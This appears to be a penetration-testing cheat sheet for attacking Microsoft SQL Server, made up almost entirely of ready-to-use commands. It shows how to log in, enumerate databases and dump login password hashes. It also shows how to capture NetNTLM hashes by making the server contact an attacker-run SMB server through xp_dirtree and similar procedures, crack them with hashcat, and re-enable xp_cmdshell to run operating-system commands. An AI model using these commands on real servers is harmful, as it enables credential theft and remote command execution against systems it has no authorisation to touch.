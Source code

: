 # MSSQL

## Connection
```sh
# mssqlclient
impacket-mssqlclient <domain>/<username>:<password>@<ip>

# sqlcmd
sqlcmd -S <IP> -U <username> -P <password> -d <database_name> -Q <query>
```

## Enumeration
```sql
-- Get version
SELECT @@version;

-- Get username
SELECT user_name();

-- Get databases
SELECT name FROM master.dbo.sysdatabases;
SELECT * FROM information_schema.schemata;

-- Tables from DB
SELECT * FROM information_schema.tables;

-- Columns from table
SELECT * FROM information_schema.columns;

-- List users
SELECT sp.name AS LOGIN, sp.type_desc AS LOGIN_TYPE, sl.password_hash, sp.create_date, sp.modify_date, CASE WHEN sp.is_disabled = 1 THEN "Disabled" ELSE "Enabled" END AS STATUS FROM sys.server_principals sp LEFT JOIN sys.sql_logins sl ON sp.principal_id = sl.principal_id WHERE sp.type NOT IN ("G", "R") ORDER BY sp.name;

-- Users and roles
SELECT * FROM sys.database_principals;
```

## Steal NetNTLM hash
When executing a command on the SQL server which requests resources from the attacker's SMB server, the hash will be captured on that server.
1. Start an **SMB server** to capture hash upon request *(local)*.
    ```sh
    # Responder.py
    sudo python3 Responder.py -I tun0

    # impacket-smbserver
    sudo impacket-smbserver share ./ -smb2support
    ```
2. Run one of the following commands *(remote)*.
    ```sql
    xp_dirtree "\\<IP>\any\thing\"
    exec master.dbo.xp_dirtree "\\<IP>\anything\"
    EXEC master..xp_subdirs "\\<IP>\anything\"
    EXEC master..xp_fileexist "\\<IP>\anything\"
    ```
### Cracking the hash
```sh
hashcat -m 5600 <hash_file> <wordlist>
```

## Command Execution
1. If needed reactivate `xp_cmdshell`
    ```sql
    EXEC sp_configure 'show advanced options',1;
    RECONFIGURE;
    EXEC sp_configure 'xp_cmdshell',1;
    RECONFIGURE;
    ```
2. Execute command
    ```sql
    EXEC xp_cmdshell 'ping 127.0.0.1';
    ```